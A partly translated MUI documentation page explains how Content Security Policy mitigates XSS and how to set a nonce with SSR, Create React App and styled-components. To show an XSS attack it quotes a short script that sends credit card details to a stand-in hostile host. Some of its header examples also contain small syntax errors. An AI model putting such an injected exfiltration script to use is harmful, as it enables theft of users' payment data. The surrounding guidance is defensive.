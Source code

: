 # 内容安全策略（CSP）

<p class="description">本节介绍了建立 CSP 的详细信息。</p>

## 什么是 CSP，为什么它有用？

CSP 通过要求开发人员检索其资产的来源并将其列入白名单来缓解跨站点脚本（XSS）攻击。 此列表作为服务器的头部（heade）返回。 例如，假设您有一个托管在 `https://example.com` 的网站 CSP 头部 `default-src：'self';` 将仅加载 `https://example.com/*` 的所有资源，并否认所有其他人。 如果您的网站的某个部分容易受到 XSS 的影响而未显示未转义的用户输入，则攻击者可以输入以下内容：

```html
<script>
  sendCreditCardDetails('https://hostile.example');
</script>
```

此漏洞允许攻击者执行任何操作。 但是，若使用安全的 CSP 头部，浏览器将不会加载此脚本。

您可以在 [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) 阅读有关 CSP 的更多信息。

## 如何实现 CSP？

### 服务端渲染（SSR）

To use CSP with MUI (and emotion), you need to use a nonce. To use CSP with MUI (and emotion), you need to use a nonce. A nonce is a randomly generated string that is only used once, therefore you need to add server middleware to generate one on each request.

CSP nonce 是一个 Base 64 编码的字符串。 你可以生成这样一个：

```js
import uuidv4 from 'uuid/v4';

const nonce = new Buffer(uuidv4()).toString('base64');
```

你必须使用 UUID 4，因为它可以生成一个 **不可预测** 的字符串。 接下来您可以将此随机数应用于 CSP 头部。 应用了随机数时，CSP 头部可能看起来像这样：

```js
header('Content-Security-Policy').set(
  `default-src 'self'; style-src: 'self' 'nonce-${nonce}';`,
);
```

你应该在服务端的 `<style>` 标签中传递一次性加密数字（nonce）。

```jsx
<style
  id="jss-server-side"
  nonce={nonce}
  dangerouslySetInnerHTML={{
    __html: sheets.toString(),
  }}
/>
```

然后，您必须将此随机数传递给 JSS ，以便将其添加到后续 `<style>` 标记中。

> Note, if you were using `StyledEngineProvider` with `injectFirst`, you will need to replace it with `CacheProvider` from emotion and add the `prepend: true` option.

```js
<head>
  <meta property="csp-nonce" content="this-is-a-nonce-123" />
</head>
```

### Create React App (CRA)

根据 [Create React App 文档](https://create-react-app.dev/docs/advanced-configuration/)，Create React App 会在生产构建过程中默认将运行时脚本动态嵌入到 index.html 中。 这需要在你的每次部署时都要在 CSP 中设置一个新的哈希值。

要将 CSP 与 Create React App 的项目一起使用，你需要在用于生产构建的 `.env` 文件中设置 `INLINE_RUNTIME_CHUNK=false`。 这将像往常一样导入运行时脚本，而不是直接嵌入它，就可以避免在每次部署时都需要设置一个新的哈希值的情况了。

### styled-components

The configuration of the nonce is not straightforward, but you can follow [this issue](https://github.com/styled-components/styled-components/issues/2363) for more insights.
